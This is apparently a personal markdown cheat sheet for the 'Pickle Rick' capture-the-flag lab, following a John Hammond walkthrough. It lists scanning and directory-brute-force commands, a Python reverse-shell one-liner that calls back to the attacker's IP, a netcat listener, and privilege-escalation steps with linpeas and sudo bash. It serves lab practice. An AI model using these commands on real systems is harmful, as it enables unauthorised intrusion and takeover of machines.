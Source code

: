 # Pen-testing Set up demonstrated by John Hammond for the Pickle rick CTF

- step 1: make directory for resources
- Step 2: subl README.md
  - Add ip as export to note pad
    - export IP={IP}
    - namp results
- Step 3: create namp directory
  - nmap -sC -sV -oN nmap/initial
- Grab IP address

## Set up Nikto scanner
  - export IP={IP}
  - nikto -h http://$IP | tee nikto.log

# Set up gobuster
  - export IP
  - gobuster -u http://$IP -w /opt/rockyou.txt
  - gobuster -u http://$IP -w /opt/directory-list-2.3-medium.txt -x php.sh.txt, cgi, html, js, css, py


## Investigation options
- nmap
- could use hydra to brute force password
- gobuster
- investigate website for clues
- grep . clue.txt // grep -R . (return all files in folder - look at source code)

## Base64 string - add 'base64 -d' to get through the layers of the onion of base64
  - echo {base 64} | base64 -d | base64 -d

## Bypassing blacklist
- test what languages will work in text box
- pentestmonkey (reverse shell cheatsheet)
  - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{Change to my IP}",{Change to port 9999}))
- nc -lnvp 9999
- run above script in text box
### Stabalize shell
- github.com/johnHammond/poor-mans-pentest
- stabilize_shell3.sh
- upload_file_nc.sh /opt/linpeas.sh

- shm$ chmod +x linpeas.sh
- ./linpeas.sh
- sudo bash

  - identify my IP address
    - ip addr show tun0

## Task list
1. What is the first ingredient Rick needs?

2. Whats the second ingredient Rick needs?

3. Whats the final ingredient Rick needs?